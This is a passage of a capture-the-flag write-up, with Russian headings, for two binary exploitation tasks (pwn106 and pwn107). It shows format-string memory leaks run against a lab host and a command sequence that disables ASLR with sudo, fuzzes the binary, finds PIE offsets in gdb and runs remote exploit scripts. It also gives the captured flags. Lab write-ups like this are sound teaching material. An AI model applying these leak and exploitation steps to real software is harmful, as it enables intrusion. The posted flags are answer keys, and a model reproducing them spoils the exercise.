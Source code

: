 ```commandline
python3 pwn106.py 
b'%0$p\n'
b'0x7fff3216c3b0\n'
b'0x55d0a1678380\n'
b'\x80\x83g\xa1\xd0U'
b'0x7fd8213226a0\n'
b'0x5b5858587b4d4854\n'
b'0x6465725f67616c66\n'
b'0x58585d6465746361\n'
b'0x7fffec3d5883\n'
b'0x7fffc604788e\n'
b'0x7ffe5bbf38d1\n'


python3 exploit.py REMOTE 10.10.146.62 9006 
b'%0$p\n'
b'0x7ffd059b56e0\n'
b'0x7eff44e608c0\n'
b'0x8\n'
b'0x7f0717fb94c0\n'
b'0x5f5530797b4d4854\n'
b'0x5f3368745f6e3077\n'
b'0x5961774133766947\n'
b'0x3168745f446e615f\n'
b'0x756f595f73315f73\n'
b's_1s_You'
b'0x19\n'
b'0x7ffdf94d5eb9\n'
b'0x1a\n'
```
```commandline
THM{y0U_w0n_th3_Giv3AwaY_anD_th1s_1s_YouR_fl4G}
```

## Задание 8
Задача выполняется на порту 9007.

### Ответьте на вопросы ниже
Отправить флаг
```commandline
file pwn107.pwn107
checksec pwn107.pwn107
./pwn107.pwn107
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
python3 fuzz_pwn107.py
python3 fuzz_pwn107.py
gdb-pwndbg -q pwn107.pwn107
break main
r
piebase
breakrva 0xa69
c
x 0x555555400992
x 0x555555400992 - 0x555555400000

python3 fuzz_pwn107.py
python3 pwn107_local.py
python3 fuzz_pwn107.py REMOTE <IP> 9007
python3 pwn107.py REMOTE <IP> 9007
cat flag.txt
```
```commandline
THM{whY_i_us3d_pr1ntF()_w1thoUt_fmting??}
```